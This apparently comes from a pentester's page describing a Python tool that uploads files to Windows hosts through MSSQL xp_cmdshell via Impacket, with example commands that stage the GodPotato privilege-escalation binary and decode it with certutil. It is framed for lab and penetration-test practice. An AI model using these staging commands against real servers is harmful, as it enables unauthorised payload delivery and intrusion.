



# MSSQL File Uploader & Decode Helper

### <mark style="color:$primary;">Overview</mark>

This Python-based tool helps security professionals and penetration testers **upload files to Windows targets via MSSQL servers** using Impacket’s `mssqlclient.py`. It’s designed for situations where network restrictions or firewalls make normal file transfers difficult.

### <mark style="color:$primary;">Why I Built It</mark>

During lab exercises and pentesting scenarios, I often ran into **blocked file transfers** when tunneling into networks. Instead of fiddling with ports or trying multiple methods manually, I wanted a **reliable, automated workflow** that:

* Uploads a payload safely in Base64 chunks
* Generates SQL and PowerShell helpers to decode it on the target
* Avoids modifying server ports or settings

This script is specifically built for **users with xp\_cmdshell enabled** on MSSQL making file transfer quick and safe without needing additional server configuration.

### <mark style="color:$primary;">How It Works</mark>

* Encodes your local file into Base64 chunks.
* Uses Impacket’s MSSQL client to execute `xp_cmdshell` commands and append chunks to a remote file.
* Generates multiple decode helper files:
  * SQL files using `certutil`
  * PowerShell commands (for command-line or script execution)
  * Optional hash verification commands

#### Usage Example


```bash
python3 mssql-file-uploader.py 10.10.110.148 "delta.com/sql_svc" Sapphire123 ~/OSCP/tools/GodPotato-NET4.exe --target "C:\users\public" --windows-auth --chunk-size 1000 --retries 2
```


**Recommended decoding methods on target:**

* Use the recommended commands. Example


```bash
impacket-mssqlclient "delta.com/sql_svc:Sapphire1231@10.10.110.148" -windows-auth -command "EXEC xp_cmdshell 'cmd /C \"certutil -decode C:\users\public\GodPotato-NET4.exe.b64 C:\users\public\GodPotato-NET4.exe\"';"
```


* Execute interactive `certutil` or PowerShell commands
* Run the provided `.sql` files via Impacket (safer for quoting/length issues)


```bash
impacket-mssqlclient "user:pass@host" -file decode_commands/decode_certutil.sql
```


### <mark style="color:$primary;">Screenshots</mark>

Below is an example of a successful file upload and decode helper generation:

<figure><figcaption></figcaption></figure>

Using generated decode commands and helpers:

<figure><figcaption></figcaption></figure>

Using the file after upload

<figure><figcaption></figcaption></figure>

### <mark style="color:$primary;">Github Repository</mark>


